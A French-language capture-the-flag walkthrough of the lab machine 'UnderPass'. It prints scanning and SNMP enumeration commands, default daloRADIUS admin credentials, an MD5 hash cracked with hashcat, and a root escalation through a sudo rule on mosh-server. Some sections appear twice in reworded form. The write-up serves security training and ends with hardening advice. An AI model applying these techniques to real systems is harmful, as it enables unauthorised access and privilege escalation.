

### 1. Scanning & Énumération

Ma phase de reconnaissance commence par un scan **Nmap** complet pour identifier les surfaces d'attaque TCP et UDP.

```bash
# Scan TCP rapide sur tous les ports
nmap -p- --min-rate 10000 10.10.11.48

# Scan de services détaillé sur les ports identifiés
nmap -p 22,80 -sCV 10.10.11.48
```

Le scan révèle deux ports TCP ouverts :
*   **Port 22 (SSH)** : OpenSSH 8.9p1 (Ubuntu).
*   **Port 80 (HTTP)** : Apache 2.4.52. La page par défaut est celle d'Ubuntu, ne révélant aucun contenu immédiat.

Étant donné le peu d'informations sur TCP, je lance un scan **UDP** pour vérifier la présence de services de gestion.

```bash
# Scan UDP pour identifier SNMP
nmap -sU --min-rate 10000 10.10.11.48
nmap -sU -sCV -p 161 10.10.11.48
```

Le service **SNMP** (port 161) répond. La bannière de service mentionne explicitement : `UnDerPass.htb is the only daloradius server in the basin!`. Cette information est cruciale car elle me donne un **Hostname** et une application cible : **daloRADIUS**.

---

### 2. Énumération SNMP

J'utilise `snmpwalk` avec la **Community String** par défaut `public` pour extraire des données sensibles du système.

```bash
# Extraction complète des MIBs via SNMPv2c
snmpwalk -v 2c -c public 10.10.11.48 | tee snmp_data
```

L'analyse du dump révèle :
*   **sysContact** : `steve@underpass.htb`
*   **sysName** : Confirmation du rôle de serveur **daloRADIUS**.
*   **hrSystemInitialLoadParameters** : Détails sur le boot process Linux, confirmant une architecture x86_64.

> **Schéma Mental :**
> SNMP (Information Leak) -> Identification de l'application (daloRADIUS) -> Découverte de Hostname (UnDerPass.htb) -> Ciblage Web spécifique.

---

### 3. Énumération Web & Discovery

La racine du serveur web (`/`) ne présente qu'une page Apache par défaut. Suite aux indices SNMP, je tente d'accéder au répertoire `/daloradius`.

Le serveur retourne une erreur **403 Forbidden**, ce qui confirme l'existence du dossier mais l'absence d'**Index Listing**. Je lance un **Directory Brute Force** ciblé sur ce chemin.

```bash
# Fuzzing récursif sur le répertoire applicatif
feroxbuster -u http://underpass.htb/daloradius -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

Le scan identifie une structure complexe correspondant au dépôt GitHub officiel de **daloRADIUS**. Je localise deux points d'entrée potentiels :
1.  `/daloradius/app/users/login.php` (Portail utilisateur)
2.  `/daloradius/app/operators/login.php` (Portail administration)

---

### 4. Brèche Initiale : Exploitation de daloRADIUS

Je teste les **Default Credentials** documentés pour **daloRADIUS** sur le portail des opérateurs : `administrator` / `radius`.

L'authentification réussit, me donnant accès au dashboard d'administration. En naviguant dans la section **Users**, je trouve un compte configuré :
*   **Username** : `svcMosh`
*   **Password Hash** : `412DD4759978ACFCC81DEAB01B382403`

Le format (32 caractères hexadécimaux) suggère du **MD5**. J'utilise un service de **Hash Cracking** (ou `hashcat`) pour retrouver le mot de passe en clair.

```text
Hash : 412DD4759978ACFCC81DEAB01B382403
Cleartext : underwaterfriends
```

---

### 5. Premier Shell (SSH)

Avec ces identifiants, je tente une connexion **SSH**. Je note que le nom d'utilisateur respecte la casse (`svcMosh`).

```bash
# Accès via SSH avec les credentials compromis
ssh svcMosh@underpass.htb
# Password: underwaterfriends
```

Je stabilise mon accès et récupère le premier flag :
```bash
svcMosh@underpass:~$ cat user.txt
a4569c2d52f1b97ec0109c747ea727f3
```

---

### Énumération de daloRADIUS & Accès Initial

L'énumération **SNMP** a révélé l'existence d'un serveur **daloRADIUS**. Bien que la racine du serveur web affiche une page par défaut, le répertoire `/daloradius/` est présent. Une recherche de fichiers sensibles et de points d'entrée via **feroxbuster** et l'analyse du dépôt GitHub officiel du projet permettent d'identifier deux interfaces de connexion distinctes.

```bash
# Énumération ciblée du répertoire daloRADIUS
feroxbuster -u http://underpass.htb/daloradius -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

# Points d'entrée identifiés
http://underpass.htb/daloradius/app/users/login.php     # Interface Utilisateur
http://underpass.htb/daloradius/app/operators/login.php # Interface Opérateur (Admin)
```

En testant les **Default Credentials** documentés pour **daloRADIUS**, je parviens à m'authentifier sur l'interface opérateur.

*   **Username** : `administrator`
*   **Password** : `radius`

Une fois dans le **Dashboard**, l'onglet des utilisateurs révèle un compte nommé `svcMosh` associé à un **MD5 Hash** : `412DD4759978ACFCC81DEAB01B382403`.

### Extraction de Credentials & Cracking

Le hash récupéré est soumis à une attaque par dictionnaire (**Wordlist** `rockyou.txt`).

```bash
# Cracking du hash via CrackStation ou Hashcat
echo "412DD4759978ACFCC81DEAB01B382403" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Le résultat donne le mot de passe en clair : `underwaterfriends`. Je procède ensuite à une vérification de la réutilisation de credentials sur le service **SSH**.

```bash
# Vérification des accès SSH
netexec ssh 10.10.11.48 -u 'svcMosh' -p 'underwaterfriends'
```

L'authentification réussit, me permettant d'obtenir un **User Shell** stable.

> **Schéma Mental : Du SNMP au Shell**
> SNMP (Information Leak) -> Hostname & Service (daloRADIUS) -> Web Discovery -> Default Creds (Operator) -> Database Leak (User Hash) -> Offline Cracking -> SSH Access.

### Escalade de Privilèges : Abus de mosh-server

L'énumération post-exploitation classique via `sudo -l` révèle une configuration permissive pour l'utilisateur `svcMosh`.

```bash
svcMosh@underpass:~$ sudo -l
User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

**Mosh (Mobile Shell)** est une alternative à **SSH** conçue pour les connexions instables. Lorsqu'un `mosh-server` est lancé, il initialise une session sur un port **UDP** (généralement 60001+) et génère une **MOSH_KEY** pour l'authentification du client.

Puisque je peux exécuter `mosh-server` avec les privilèges **root** sans mot de passe, je peux instancier un serveur dont le processus parent est **root**. En m'y connectant localement avec `mosh-client`, je récupère l'environnement du processus parent.

```bash
# 1. Lancer le serveur mosh en tant que root
sudo /usr/bin/mosh-server

# Sortie : 
# MOSH CONNECT 60001 DTokqgn0cTYP6mTpvcQjSw
# [mosh-server detached, pid = 5862]

# 2. Se connecter localement au serveur root
# La variable MOSH_KEY doit contenir la clé générée ci-dessus
MOSH_KEY=DTokqgn0cTYP6mTpvcQjSw mosh-client 127.0.0.1 60001
```

> **Schéma Mental : Privilege Escalation via Mosh**
> Sudo (NOPASSWD) -> Exécution de mosh-server (Context: Root) -> Génération de Session Key -> Connexion locale via mosh-client -> Héritage du Shell Root.

Une fois connecté, je confirme l'identité du compte :
```bash
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### Phase 3 : Élévation de Privilèges & Domination

Une fois mon accès initial établi en tant que **svcMosh**, j'entame une phase d'énumération locale pour identifier des vecteurs d'escalade. L'examen des privilèges **Sudo** révèle une configuration permissive critique.

#### 1. Énumération des privilèges Sudo

Je vérifie les droits de l'utilisateur avec la commande `sudo -l`.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

L'utilisateur peut exécuter `/usr/bin/mosh-server` avec les privilèges de n'importe quel utilisateur (incluant **root**) sans mot de passe. **Mosh** (**Mobile Shell**) est une alternative à **SSH** conçue pour les connexions instables. Lorsqu'un **mosh-server** est lancé, il ouvre un port **UDP** et attend une connexion via une clé de session unique.

#### 2. Exploitation de mosh-server

L'attaque consiste à instancier un serveur **Mosh** en tant que **root**. Ce serveur va générer une clé de session (**MOSH_KEY**) et écouter sur un port **UDP** (généralement à partir de 60001). En me connectant localement à ce serveur avec le **mosh-client**, j'obtiendrai un shell avec les privilèges du processus parent, soit **root**.

> **Schéma Mental :**
> `Sudo` (Privilège) -> `mosh-server` (Processus Root) -> `MOSH_KEY` (Token d'accès) -> `mosh-client` (Connexion locale) -> `Root Shell` (Héritage de privilèges).

**Étape A : Lancement du serveur**
```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 DTokqgn0cTYP6mTpvcQjSw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
[...]
[mosh-server detached, pid = 5862]
```

Le serveur affiche deux informations cruciales : le port **UDP** (`60001`) et la `MOSH_KEY` (`DTokqgn0cTYP6mTpvcQjSw`).

**Étape B : Connexion via le client**
Je dois exporter la clé dans une **Environment Variable** nommée `MOSH_KEY` pour que le client puisse s'authentifier auprès du serveur local.

```bash
svcMosh@underpass:~$ MOSH_KEY=DTokqgn0cTYP6mTpvcQjSw mosh-client 127.0.0.1 60001
```

La session s'établit immédiatement, me droppant dans un shell interactif avec les privilèges les plus élevés.

```bash
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@underpass:~# cat /root/root.txt
03148d5f************************
```

---

### Analyse Post-Exploitation : Beyond Root

L'analyse de la machine **UnderPass** met en lumière plusieurs faiblesses structurelles souvent rencontrées dans des environnements de gestion réseau :

1.  **Exposition SNMP (Information Disclosure) :** Le service **SNMP** avec la communauté par défaut `public` a agi comme une fuite d'informations majeure. Il a révélé non seulement le nom de domaine interne, mais aussi l'application spécifique installée (**daloRADIUS**) et une adresse email (`steve@underpass.htb`), facilitant grandement la phase de reconnaissance.
2.  **Défaut de durcissement applicatif :** L'instance **daloRADIUS** utilisait des identifiants par défaut (`administrator:radius`). Dans un scénario réel, ces interfaces de gestion **AAA** (**Authentication, Authorization, and Accounting**) sont des cibles prioritaires car elles centralisent les secrets d'authentification de l'infrastructure.
3.  **Gestion des secrets :** Le stockage de mots de passe sous forme de hashs MD5 (ou formats similaires simples) dans la base de données de **daloRADIUS** a permis un **Offline Cracking** instantané. L'utilisation de **Argon2** ou **bcrypt** aurait rendu cette étape impraticable.
4.  **Misconfiguration Sudo :** L'autorisation d'exécuter `mosh-server` via **Sudo** est une erreur de configuration fatale. **Mosh**, par design, est un wrapper de terminal. Accorder l'exécution d'un binaire capable d'instancier un shell interactif à un utilisateur non privilégié revient à lui donner un accès **Root** direct. Une politique de **Least Privilege** aurait dû restreindre l'usage de **Mosh** ou utiliser des **Sudoers** restreints avec des arguments spécifiques, bien que pour `mosh-server`, cela reste intrinsèquement risqué.